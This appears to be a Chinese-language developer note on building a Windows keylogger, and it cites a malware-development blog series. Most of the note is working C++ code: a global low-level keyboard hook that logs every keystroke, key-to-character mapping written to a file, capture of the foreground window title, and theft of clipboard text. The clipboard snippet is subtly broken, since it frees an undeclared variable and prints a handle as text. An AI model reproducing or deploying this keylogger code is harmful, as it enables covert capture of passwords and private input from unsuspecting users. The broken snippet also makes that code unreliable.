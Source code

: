 # 按键记录

keywords: 键盘记录器 keylogger  

```cpp
#include <Windows.h>
#include <stdio.h>

LRESULT CALLBACK KeyboardHook(int nCode, WPARAM wParam, LPARAM lParam)
{
	KBDLLHOOKSTRUCT kbdStruct = *((KBDLLHOOKSTRUCT*)lParam);
	int msg = 1 + (kbdStruct.scanCode << 16) + (kbdStruct.flags << 24);
	char keyName[64];
	GetKeyNameTextA(msg, keyName, 64);
	char keyState[16];
	switch (wParam)
	{
	case WM_KEYUP:
		strncpy_s(keyState, "Key Up\0", 16);
		break;
	case WM_KEYDOWN:
		strncpy_s(keyState, "Key Down\0", 16);
		break;
	case WM_SYSKEYUP:
		strncpy_s(keyState, "Sys Key Up\0", 16);
		break;
	case WM_SYSKEYDOWN:
		strncpy_s(keyState, "Sys Key Down\0", 16);
		break;
	}
	printf("Captured: %s \t %s\n", keyName, keyState);
	return CallNextHookEx(0, nCode, wParam, lParam);
}

int main()
{
	SetWindowsHookExA(WH_KEYBOARD_LL, KeyboardHook, NULL, 0);
	while (GetMessageA(0, 0, 0, 0));
}
```

---
`GetKeyNameTextA`对一些按键不会返回名称，如：右SHIFT会返回空字符串，所以建议根据映射表手动映射： 
```cpp
KBDLLHOOKSTRUCT kbdStruct = *((KBDLLHOOKSTRUCT*)lParam);
switch (kbdStruct.vkCode)
{
	case VK_BACK:
		fprintf(fp, "BACKSPACE ");
		break;
	...
	case 0x4F:
		if (capLetter) { fprintf(fp, "O "); }
		else { fprintf(fp, "o "); }
		break;
	...
	default:
		fprintf(fp, "[UNKNOWN]%04x ", kbdStruct.vkCode);
		break;
}
```
https://docs.microsoft.com/en-us/windows/win32/inputdev/virtual-key-codes  


---
获取一些按键状态：  
```cpp
// GetKeyState 返回值类型为 SHORT，2个字节，最高位表示按键是否被按下
bool shiftPress = GetKeyState(VK_SHIFT) & 0x8000;
// 最低位表示当前状态
bool capsLock = GetKeyState(VK_CAPITAL) & 0x1;
bool numLock = GetKeyState(VK_NUMLOCK) & 0x1;
// 大写状态，简洁的异或，相当于 (capsLock && !shiftPress) || (!capsLock && shiftPress)
bool capLetter = capsLock ^ shiftPress;
```
https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getkeystate  


---
获取当前窗口标题：  
```cpp
HWND curForeWindow = GetForegroundWindow();
char curForeWindowText[264] = { 0 };
GetWindowTextA(curForeWindow, curForeWindowText, 260);
```


---
获取剪贴板文本内容：  
```cpp
if (IsClipboardFormatAvailable(CF_TEXT))
{
	OpenClipboard(NULL);
	HANDLE cbHandle = GetClipboardData(CF_TEXT);
	printf("[c]%s[c] ", cbHandle);

	free(encodedData);

	CloseClipboard();
}
```


---
原链接: https://0xpat.github.io/Malware_development_part_7/  


2021/4/21  
